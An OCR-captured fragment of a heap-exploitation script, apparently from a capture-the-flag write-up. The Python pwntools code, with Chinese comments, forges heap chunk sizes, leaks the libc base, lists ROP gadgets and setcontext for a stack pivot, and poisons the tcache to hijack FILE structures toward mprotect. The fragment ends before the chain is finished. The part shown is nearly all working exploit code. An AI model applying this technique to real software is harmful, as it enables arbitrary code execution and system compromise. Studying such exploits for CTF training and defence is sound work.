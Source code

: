 ```bash
    delete(2)

    add(2)
    edit(2, mchunk_size(0x21))
    add(2)
    edit(2, mchunk_size(0x441))
    add(2)
    add(2)
    # 这里提前将 _IO_buf_end 的值填上
    edit(2, p64(end))
    for i in range(0x1f):
        add(2)
    add(2)
    edit(2, mchunk_size(0x31))
    add(2)

    delete(0)
    show(0)
    libc.address = u64(rr(8)) - 0x1e0c00
    log.success('libc_addr: 0x%x', libc.address)
    _IO_list_all = libc.sym['_IO_list_all']
    _IO_str_jumps = libc.address + 0x1e2560
    free_hook = libc.address + 0x1e3e20
    _IO_str_overflow = libc.address + 0x8fbb0
    setcontext = libc.address + 0x529ad
    # 0x000000000014a0a0 : mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]
    hijack_rsp = libc.address + 0x14a0a0
    # 0x0000000000028a55 : pop rdi ; ret
    pop_rdi = libc.address + 0x28a55
    # 0x000000000002a4cf : pop rsi ; ret
    pop_rsi = libc.address + 0x2a4cf
    # 0x00000000000c7f32 : pop rdx ; ret
    pop_rdx = libc.address + 0xc7f32
    # 0x0000000000044c70 : pop rax ; ret
    pop_rax = libc.address + 0x44c70
    # 0x000000000006105a: syscall; ret;
    syscall = libc.address + 0x6105a
    # 0x59020 : mov rsp, rdx ; ret
    mov_rdx_rsp = libc.address + 0x59020
    # 0x0000000000033af2 : pop rsp ; ret
    pop_rsp = libc.address + 0x33af2
    ret = libc.address + 0x26699

    mprotect = libc.sym['mprotect']
    new_stack = libc.bss()
    read_buf = libc.bss() + 0x200


    add(0)
    delete(0)
    delete(2)
    # heap_addr + 0x60 对应 [rdx + 0x20] 的位置，放置 setcontext+61 的地址
    edit(0, p64(setcontext))
    poc = ((heap_addr+0xc00)>>12)^((heap_addr+0x7b0))
    edit(2, p64(poc))
    add(0)
    # 获得第二块 largebin_chunk，地址为 heap+0x300
    add(2)
    log.success('large chunk No.2: 0x%x', heap_addr+0x7a0)
    delete(0)

    delete(1)
```